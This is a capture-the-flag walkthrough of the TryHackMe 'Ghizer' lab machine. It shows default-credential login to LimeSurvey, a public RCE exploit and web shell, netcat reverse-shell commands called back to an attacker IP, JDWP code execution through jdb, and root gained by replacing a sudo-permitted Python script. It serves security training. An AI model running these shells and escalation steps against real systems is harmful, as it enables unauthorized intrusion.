



# Ghizer

#Linux #RCE #Ghidra


## Reconnaissance

I started running nmap and I got the result:

```
$ nmap -sC -sV -p- 10.67.132.128
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-23 06:33 EST
Nmap scan report for ghizer.thm (10.67.132.128)
Host is up (0.13s latency).
Not shown: 65529 closed tcp ports (reset)
PORT      STATE SERVICE    VERSION
21/tcp    open  ftp?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, RTSPRequest, X11Probe: 
|     220 Welcome to Anonymous FTP server (vsFTPd 3.0.3)
|     Please login with USER and PASS.
|   Kerberos, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|_    220 Welcome to Anonymous FTP server (vsFTPd 3.0.3)
80/tcp    open  http       Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: LimeSurvey http://www.limesurvey.org
|_http-title:         LimeSurvey    
|_http-server-header: Apache/2.4.18 (Ubuntu)
443/tcp   open  ssl/http   Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| tls-alpn: 
|_  http/1.1
|_http-generator: WordPress 5.4.2
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-07-23T17:27:31
|_Not valid after:  2030-07-21T17:27:31
|_ssl-date: TLS randomness does not represent time
|_http-title: Ghizer &#8211; Just another WordPress site
18002/tcp open  java-rmi   Java RMI
| rmi-dumpregistry: 
|   jmxrmi
|     javax.management.remote.rmi.RMIServerImpl_Stub
|     @127.0.1.1:38481
|     extends
|       java.rmi.server.RemoteStub
|       extends
|_        java.rmi.server.RemoteObject
38481/tcp open  java-rmi   Java RMI
42029/tcp open  tcpwrapped
```

## Enumeration

I've tried to login on FTP with "anonymous" login and password. But there is not interesting here, I didn't have any permission to read the files.

```
ftp 10.64.160.15
Connected to 10.64.160.15.
220 Welcome to Anonymous FTP server (vsFTPd 3.0.3)
Name (10.64.160.15:user): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> help
```

I used `ffuf` to perform a brute-force attack. 

```
$ ffuf -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36" -u http://10.65.155.33/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

admin             [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 129ms]
docs              [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 128ms]
assets            [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 128ms]
upload            [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 128ms]
themes            [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 178ms]
tmp               [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 188ms]
plugins           [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 190ms]
application       [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 127ms]
tests             [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 127ms]
installer         [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 127ms]
locale            [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 128ms]
framework         [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 128ms]
server-status     [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 127ms]
```

I've checked `/admin` folder and I got a login page.

<figure><figcaption></figcaption></figure>

After that, I looked for LimeSurvey's default credentials and I got username and password: `admin:password`.

<figure><figcaption></figcaption></figure>

Now I was able to login as admin!

Since I knew the credentials, I found this exploit to get a RCE on application. (LimeSurvey < 3.16 - Remote Code Execution)



```
$ python2.7 exp.py http://10.67.132.128 admin password
[*] Logging in to LimeSurvey...
[*] Creating a new Survey...
[+] SurveyID: 247217
[*] Uploading a malicious PHAR...
[*] Sending the Payload...
[*] TCPDF Response: <strong>TCPDF ERROR: </strong>[Image] Unable to get the size of the image: phar://./upload/surveys/247217/files/malicious.jpg
[+] Pwned! :)
[+] Getting the shell...
$ ls
CONTRIBUTING.md
README.md
admin
application
assets
composer.json
docs
framework
index.php
installer
locale
manifest.yml
phpci.yml
phpunit.xml
plugins
shell.php
tests
themes
third_party
tmp
upload

$ whoami
www-data
```

When I ran the exploit, I got a shell.

We can notice that was created a file called `shell.php`, this is basically a PHP Script that call a system command through a `$_GET["c"]` variable.

Since I was able to upload shell.php, I'm going to get a reverse shell because to have more control about the shell.

```
http://10.67.132.128/upload/shell.php?c=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20192.168.183.77%201337%20%3E%2Ftmp%2Ff
```

```
$ nc -nlvp 1337
listening on [any] 1337 ...
connect to [192.168.183.77] from (UNKNOWN) [10.67.132.128] 51752
sh: 0: can't access tty; job control turned off
$ python3 -c "import pty; pty.spawn('/bin/bash')"   
www-data@ubuntu:/var/www/html/limesurvey/upload$ 

www-data@ubuntu:/var/www/html/limesurvey/upload$ 

www-data@ubuntu:/var/www/html/limesurvey/upload$ ^Z
zsh: suspended  nc -nlvp 1337
   
┌──(user㉿vbox)-[~/Desktop]
└─$ stty raw -echo && fg    
[1]  + continued  nc -nlvp 1337

www-data@ubuntu:/var/www/html/limesurvey/upload$ 
```

I've found some interesting credentials on `/var/www/html/wordpress/wp-config.php` and `/var/www/html/limesurvey/application/config.php`.

<figure><figcaption></figcaption></figure>

There is a user called `veronica`, but I couldn't read the `user.txt` file because of its permissions.

```
www-data@ubuntu:/home/veronica$ ls 
Desktop    Music     Templates    base.py           user.txt
Documents  Pictures  Videos       examples.desktop
Downloads  Public    __pycache__  ghidra_9.0
www-data@ubuntu:/home/veronica$ cat user.txt 
cat: user.txt: Permission denied
```

So, I run `netstat -lnpt` to check open ports and I've found something interesting on `18001` port.

```
www-data@ubuntu:/home/veronica$ netstat -nlpt
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:18001         0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::42029                :::*                    LISTEN      -               
tcp6       0      0 :::80                   :::*                    LISTEN      -               
tcp6       0      0 :::38481                :::*                    LISTEN      -               
tcp6       0      0 :::18002                :::*                    LISTEN      -               
tcp6       0      0 ::1:631                 :::*                    LISTEN      -               
tcp6       0      0 :::443                  :::*                    LISTEN      -               
tcp6       0      0 :::443                  :::*                    LISTEN      -               
tcp6       0      0 :::443 
```

Port 18001 is often associated with debugging ports such as JDWP (Java Debug Wire Protocol) for development, allowing remote code execution if exposed. I started to look about this and I found a interesting video [**RCE Through JDWP Debug Port**](https://www.youtube.com/watch?v=N3VcWIUpgfE)

I followed the instructions in this video and that's how I could get access with veronica user.

```
www-data@ubuntu:/var/www/html/limesurvey$ jdb -attach localhost:18001
Set uncaught java.lang.Throwable
Set deferred uncaught java.lang.Throwable
Initializing jdb ...
> stop in org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()
Set breakpoint org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()
> 
> 
Breakpoint hit: "thread=Log4j2-TF-4-Scheduled-1", org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run(), line=96 bci=0

Log4j2-TF-4-Scheduled-1[1] print new java.lang.Runtime().exec("nc 192.168.183.77 31337 -e /bin/sh")
```

```
$ nc -nlvp 31337
listening on [any] 31337 ...
connect to [192.168.183.77] from (UNKNOWN) [10.65.167.170] 48866
whoami
veronica
```

## Privilege Escalation 

I ran `sudo -l` and I notice that veronica can run `base.py` as root.

```
veronica@ubuntu:~$ sudo -l
Matching Defaults entries for veronica on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User veronica may run the following commands on ubuntu:
    (ALL : ALL) ALL
    (root : root) NOPASSWD: /usr/bin/python3.5 /home/veronica/base.py
```

We can take a look. But there's not interesting inside this file.

```
veronica@ubuntu:~$ cat base.py
import base64

hijackme = base64.b64encode(b'tryhackme is the best')
print(hijackme)
```

I noticed that I was unable to edit `/home/veronica/base.py` file, but I could delete it. I'm going to delete it and create it again inserting the execution bash as root.

```
veronica@ubuntu:~$ cp base.py base.py.bkp 

veronica@ubuntu:~$ rm -rf /home/veronica/base.py

veronica@ubuntu:~$ cat << EOF > base.py
> import os
> 
> os.system('chmod +s /bin/bash')
> EOF
> 
veronica@ubuntu:~$ cat base.py
import os

os.system('chmod +s /bin/bash')
```

Now I'm root.

```
veronica@ubuntu:~$ sudo /usr/bin/python3.5 /home/veronica/base.py
veronica@ubuntu:~$ 
veronica@ubuntu:~$ /bin/bash -p
bash-4.3# whoami
root
```